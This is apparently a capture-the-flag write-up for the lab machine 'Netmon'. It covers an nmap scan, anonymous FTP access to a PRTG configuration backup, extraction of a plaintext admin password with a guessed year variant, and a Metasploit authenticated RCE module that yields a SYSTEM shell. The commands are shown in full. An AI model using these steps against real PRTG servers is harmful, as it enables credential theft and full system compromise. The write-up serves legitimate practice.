 Target: 10.10.10.152

## Enumeration

nmap
```
$ sudo nmap -sC -sV 10.10.10.152

Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-15 01:36 PDT
Nmap scan report for 10.10.10.152
Host is up (0.095s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE      VERSION
21/tcp  open  ftp          Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)
| 02-03-19  08:08AM       <DIR>          Users
|_02-25-19  11:49PM       <DIR>          Windows
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp  open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-server-header: PRTG/18.1.37.13946
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-trane-info: Problem with XML parsing of /evox/about
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -1s, deviation: 0s, median: -1s
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-05-15T08:36:54
|_  start_date: 2021-05-15T08:35:04
```

checking 10.10.10.152
![index](netmon1.png)

### Findings:Looking for attack vectors

Ftp can be accessed through Anonymous FTP login.
Traverse and find website config files.


## Foothold:

[Location of Paessler config files](https://kb.paessler.com/en/topic/463-how-and-where-does-prtg-store-its-data)

ftp login
```
$ ftp 10.10.10.152

ftp> cd "Programdata"\\Paessler\\"PRTG Network Monitor"

ftp> get "PRTG Configuration.old.bak"

local: PRTG Configuration.old.bak remote: PRTG Configuration.old.bak
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1153755 bytes received in 2.80 secs (402.3314 kB/s)
```

looking for creds
```
$ less "PRTG Configuration.old.bak"

<snip>
<dbpassword>
    <!-- User: prtgadmin -->
     PrTg@dmin2018
</dbpassword>
<snip>
```

Loot:

prtgadmin:PrTg@dmin2018

trying password on a different year

prtgadmin:PrTg@dmin2019

trying credentials
![login](netmon2.png)

Metasploit
```
$ msfconsole
```

searching for prtg exploits
```
search prtg

Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  exploit/windows/http/prtg_authenticated_rce  2018-06-25       excellent  Yes    PRTG Network Monitor Authenticated RCE


use exploit/windows/http/prtg_authenticated_rce
set RHOSTS 10.10.10.152
set LPORT tun0
set ADMIN_USERNAME prtgadmin
set ADMIN_PASSWORD PrTg@dmin2019
run
```

```
meterpreter > getuid

Server username: NT AUTHORITY\SYSTEM
```

```
meterpreter > cd C:\\Users\\Public

meterpreter > cat user.txt

<redacted>

meterpreter > cd C:\\Users\\Administrator\\Desktop

meterpreter > cat root.txt

<redacted>
```
